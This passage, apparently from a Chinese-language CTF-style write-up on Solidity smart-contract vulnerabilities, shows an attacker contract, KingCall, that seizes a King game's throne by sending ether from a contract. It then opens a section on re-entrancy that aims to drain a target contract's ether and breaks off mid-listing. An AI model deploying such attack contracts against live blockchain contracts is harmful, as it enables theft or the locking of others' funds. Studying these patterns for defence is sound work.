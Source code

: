 ```
  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}

//攻击者，调用sendByCall发送1eth即可
contract KingCall {
    
    function sendByCall(address kingAddr) public payable{
        //in solidity 0.4.18
         kingAddr.call.value(msg.value)("0x12121212");
         
        //follow two methods will fail, dont know why
        //kingAddr.transfer(msg.value);
        //kingAddr.send(msg.value);
    }
    
    function getBalance() public view returns(uint){
        return this.balance;   
    }
    
    function kill() public{
        selfdestruct(0xcfe860f5b2865941d93a3526119b9435cc2ac0b5);
    }
    
}
```
### 10. Re-entrancy
#### 一、重入攻击的影响
以太坊历史上影响最大的黑客攻击事件之一，the dao事件就是黑客利用漏洞进行的重入攻击，the dao事件导致the dao合约中的所有etc被盗，以太坊因此事件分叉为etc与eth
#### 二、实例介绍
如下所示，Renentrace为目标合约，部署此合约后给合约中转账5eth，我们将利用重入攻击来将此合约中的eth全部取走

##### 1. 目标合约
```
pragma solidity ^0.4.18;

/**
 * @title SafeMath
 * @dev Math operations with safety checks that throw on error
 */
library SafeMath {

  /**
  * @dev Multiplies two numbers, throws on overflow.
  */
  function mul(uint256 a, uint256 b) internal pure returns (uint256) {
    if (a == 0) {
      return 0;
    }
    uint256 c = a * b;
    assert(c / a == b);
    return c;
  }

  /**
  * @dev Integer division of two numbers, truncating the quotient.
  */
  function div(uint256 a, uint256 b) internal pure returns (uint256) {
```